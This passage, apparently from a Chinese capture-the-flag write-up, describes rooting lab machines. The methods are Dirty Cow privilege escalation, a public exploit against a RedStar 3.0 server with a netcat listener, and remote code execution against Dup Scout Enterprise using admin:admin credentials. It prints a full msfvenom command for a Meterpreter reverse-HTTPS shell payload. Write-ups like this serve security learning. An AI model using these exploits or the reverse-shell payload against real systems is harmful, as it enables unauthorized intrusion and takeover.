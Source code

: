 该文件被写入后，我们调用test4.php，查看它是以什么身份来运行。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f75f18aa8313e337.png)

正如预期的那样，我们是作为web用户运行的，所以只有有限的权限。不过，这足以搞定一些旗帜。我们决定使用完全交互式shell来升级我们对操作系统的访问权限——这个交互式shell也是使用相同的攻击向量得到的。

最后，我们设法进行提取。这里的操作系统是Ubuntu 15.04，利用Dirty Cow漏洞后，我们获取了超级用户权限，并拿下了这台机器上的最后一个旗标。 

**<br>**

**Webmin**

这台机器开放了TCP端口80和10000。 80端口运行一个Web服务器，托管了一些可下载的挑战，而端口10000似乎是Webmin。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t010e08d5fb76a85751.png)

Webmin是一个引人入胜的目标，因为这个版本好像有一些已经公开的安全漏洞。 但是，我们尝试了一些漏洞代码之后，发现没有效果。

但是，端口80上的Web服务器却因其服务器banner而泄露操作系统；正是北韩的RedStar 3.0。啊哈——不久以前@hackerfantastic对RedStar进行了大量的研究，如果没记错的话，研究结果表明这个操作系统的安全性并不太好。果然…

https://www.exploit-db.com/exploits/40938/

对exploit进行一番调查，并简单地设置一个netcat侦听器后，使用适当的参数来运行exploit，看，立马就得到了一个root shell。旗标顺利到手；当然由于来得太容易，分值肯定不会太高。不过这里我们还是要感谢@hackerfantastic！



**Dup Scout**

这台机器运行了一个名为Dup Scout Enterprise的应用程序。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01b8dd7dff00735c73.png)

它容易受到远程代码执行漏洞的攻击，在exploit-db上很容易找到相应的exploit。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t017f6abdc4ac5d6567.png)

我们通过使用admin：admin登录并查看系统信息页面，发现体系结构为32位。为了在这台机器上面使用该exploit，唯一要做的事情就是修改这个shellcode，使其适用于32位操作系统。 这可以通过msfvenom轻松实现：

```
msfvenom -p windows/meterpreter/reverse_https LHOST=172.16.70.242 LPORT=443 EXITFUN=none -e x86/alpha_mixed -f python
```

在目标服务器上运行exploit之前，我们要在本地搭设相应的软件，以检查它是否完全按预期工作。然后，我们才在生产服务器上面运行，并获得了具有SYSTEM级访问权限的shell。效果不错，也很轻松。



**X86-intermediate.binary**

接下来我们将借助调试器（也即IDA），完成两项二进制挑战。
